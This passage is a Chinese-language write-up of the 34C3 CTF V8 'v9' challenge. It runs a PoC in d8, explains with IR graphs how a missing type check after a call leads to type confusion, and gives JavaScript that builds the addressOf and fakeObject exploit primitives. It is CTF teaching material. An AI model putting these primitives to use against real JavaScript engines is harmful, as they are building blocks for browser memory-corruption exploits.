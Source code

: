 测试发现确实发生了类型混淆

```
root@ubuntu:~/Desktop/v8/34c3ctf-v9/x64.debug# ./d8 poc.js
1.8632743560757e-310
```

分析IR图

[![](https://p1.ssl.qhimg.com/t011075607668d3babe.png)](https://p1.ssl.qhimg.com/t011075607668d3babe.png)

可以看到，在调用完函数后，没有对dict的类型重新进行检查，那么，我们在函数里改变了dict里a属性的类型，但是代码仍然用的是对待原来`double elements`的方式来取出值，由此发生类型混淆

[![](https://p5.ssl.qhimg.com/t01bffb0540aaf7ee38.png)](https://p5.ssl.qhimg.com/t01bffb0540aaf7ee38.png)



## 0x03 漏洞利用

首先构造`addressOf`原语

```
function addressOf_opt(dict,f) `{`
   var x = dict.a;
   f(dict);
   return dict.a;
`}`

var double_dict = `{`a:1.1`}`;

for (var i=0;i&lt;0x20000;i++) `{`
   addressOf_opt(double_dict,(o)=&gt;1);
   addressOf_opt(double_dict,(o)=&gt;2);
   addressOf_opt(double_dict,(o)=&gt;3);
`}`

function addressOf(obj) `{`
   var x = addressOf_opt(double_dict,(o)=&gt;`{`o.a = obj`}`);
   return [u64_h(x),u64_l(x) - 0x1];
`}`
```

然后构造`fakeObject`原语

```
function fakeObject_opt(dict,f,addr) `{`
   var x = dict.b;
   f(dict);
   dict.b = addr;
   return dict;
`}`

var obj = `{``}`;
var obj_dict = `{`b:2.2`}`;

for (var i=0;i&lt;0x20000;i++) `{`
   fakeObject_opt(obj_dict,(o)=&gt;1,1.1);
   fakeObject_opt(obj_dict,(o)=&gt;2,2.2);
   fakeObject_opt(obj_dict,(o)=&gt;3,3.3);
`}`

function fakeObject(addr_h,addr_l) `{`
   var obj1 = fakeObject_opt(obj_dict,(o)=&gt;`{`o.b = obj;`}`,p64f(addr_l+0x1,addr_h)).b;
   return obj1;
`}`
```